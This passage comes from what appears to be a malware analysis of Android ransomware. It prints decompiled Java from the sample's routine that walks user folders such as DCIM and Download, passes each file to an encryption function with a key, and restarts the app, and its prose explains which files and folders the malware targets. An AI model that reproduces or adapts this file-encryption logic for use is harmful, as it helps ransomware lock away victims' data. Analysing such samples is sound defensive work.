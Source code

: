 >				
>				bb++;
>				executorService.execute(new Runnable(){
>					@Override public void run(){
>						sss.jj(sss.this, key, action);
>						hh++;
>						if (bb == hh && bool){
>							SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>							editor.putInt("sss", 1);
>							editor.commit();
>							MainActivity.instance.finish();
>							Intent intent = context.getPackageManager().getLaunchIntentForPackage(context.getPackageName());
>							intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>							context.startActivity(intent);
>						}
>					}
>				});
>			}
>			else if (localFile.isDirectory() && !localFile.toString().contains("/.") &&
>				!localFile.toString().toLowerCase().contains("android") &&
>				!localFile.toString().toLowerCase().contains("com.") &&
>				!localFile.toString().toLowerCase().contains("miad") &&
>					(jd(localFile.toString()) < 3 ||
>					localFile.toString().toLowerCase().contains("baidunetdisk") ||
>					localFile.toString().toLowerCase().contains("download") ||
>					localFile.toString().toLowerCase().contains("dcim"))){
>				deleteDirWihtFile(localFile, key, action, context);
>			}
>		}
>	}
>}
> ```

At the first time, the value of `action` is 1. We can see that the malware doesn't try to encrypt all files, for example:
* at least 0x2800 bytes
* at most 0x3200000 bytes
* containing a dot (i.e. with an extension)
* not the files with a specific suffix ( `MainActivity.hz`)
* not all directories: accept dcim, downloads, baidunetdisk, but reject system or third party's folders

If the object is a file, the routine `jj` is called with the `key` and the `action` taken as parameters (in order to encrypt or decrypt), and if it's a directory, 
the routine `deleteDirWihtFile` is recursively called.

### Encryption suffix

In the previous snippet, the variable `MainActivity.hz` was used. This string is built in `MainActivity.onCreate` thanks to the routine `sss.l`:

![sss_l](sss_l.png)
